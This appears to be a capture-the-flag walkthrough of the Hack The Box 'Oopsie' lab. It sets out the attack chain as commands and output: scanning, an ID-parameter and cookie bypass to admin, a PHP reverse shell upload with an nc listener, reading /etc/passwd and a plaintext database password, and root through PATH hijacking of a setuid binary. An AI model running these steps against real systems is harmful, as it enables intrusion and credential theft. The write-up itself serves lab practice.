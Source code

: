 ![oopsie.jpg](/assets/oopsie.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.87.40
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.107.26
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


3. View the web page
![oopsie-web.PNG](/assets/oopsie-web.PNG)


4. With **BurpSuite** view petitions of web page and look anothers directorys

![oopsie-burp.PNG](/assets/oopsie-burp.PNG)


5. Access to new directory
![oopsie-login.PNG](/assets/oopsie-login.PNG)


6. Access as **Guest** and in **clients** look the url
![oopsie-guest.PNG](/assets/oopsie-guest.PNG)


7. We can edit the **id**, if you put **1** you can access as **administrator**.
![oopsie-admin.PNG](/assets/oopsie-admin.PNG)


8. For keep session as **administrator** edit the cookie
![oopsie-cookie.PNG](/assets/oopsie-cookie.PNG)
> With this you can keep session in any part of web page.

9. In **uploads** we load a php reverse shell
![oopsie-upload.PNG](/assets/oopsie-upload.PNG)
First, go to `/usr/share/webshells/php/php-reverse-shell.php`copy this file and put in directory's machine.
Next, edit the file and put in `$IP` the IP address of tun0 and in `$PORT` put 4444

![oopsie-php.PNG](/assets/oopsie-php.PNG)

Finally, upload the file.


10. Use **gobuster** to discover others directories to access
```bash
┌──(root㉿est)-[/home/kali/Desktop/Oopsie]
└─| gobuster dir -u http://10.129.107.26 -w /usr/share/dirb/wordlists/small.txt 
```

**Output**
```bash
/css                  (Status: 301) [Size: 312] [--> http://10.129.107.26/css/]
/images               (Status: 301) [Size: 315] [--> http://10.129.107.26/images/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.107.26/js/]    
/uploads              (Status: 301) [Size: 316] [--> http://10.129.107.26/uploads/]
```

11. With **nc** listen on port 4444.
```bash
┌──(root㉿est)-[/home/kali/Desktop/Oopsie]
└─| nc -lvnp 4444 
```

12. Execute the php-reverse-shell.php in url

![oopsie-reverse-url.PNG](/assets/oopsie-reverse-url.PNG)

13. Run this
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

14. Look `/etc/passwd`
```bash
www-data@oopsie:/$ cat /etc/passwd
```

**Output**
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
> Find important information

15. Acces to robert's directory and find a **user flag**

```bash
www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

16. Go to `www-data@oopsie:/$ cd /var/www/html`, (In this folder you found a files of web page)
```bash
www-data@oopsie:/var/www/html$ dir
dir
cdn-cgi  css  fonts  images  index.php  js  themes  uploads
```

17. Enter in `cdn-cgi`, next in `login` and cat a **db.php** file.
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

18. With the credentials loggin how robert user
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!
```

19. Search more information of **robert**
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

20. Try to access a **bugtracker** group
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: /bin/bash
/bin/bash
---------------

cat: /root/reports//bin/bash: No such file or directory
```
For login it execute **cat**, but, if we change the functioning of cat can spawn a `/bin/bash`

21. Change the functionning of **cat**
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ cd /tmp 
cd /tmp
robert@oopsie:/tmp$ echo '/bin/bash' > cat
echo '/bin/bash' > cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
```
Whit this change a cat with other environment variable

22. Try to login in **bugtracker** group and in **Provide Bug ID** put any number
```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
---------------
```

**Output**
```bash
root@oopsie:/tmp#
```

23. Now are root
```bash
root@oopsie:/# cd root
cd root
root@oopsie:/root# dir
dir
reports  root.txt
root@oopsie:/root# cat root.txt
cat root.txt
root@oopsie:/root# head root.txt
head root.txt
af13b0bee69f8a877c3faf667f7beacf
```

+ **cat** not read files because alter the functioning, also you can use **head** or **tail**.
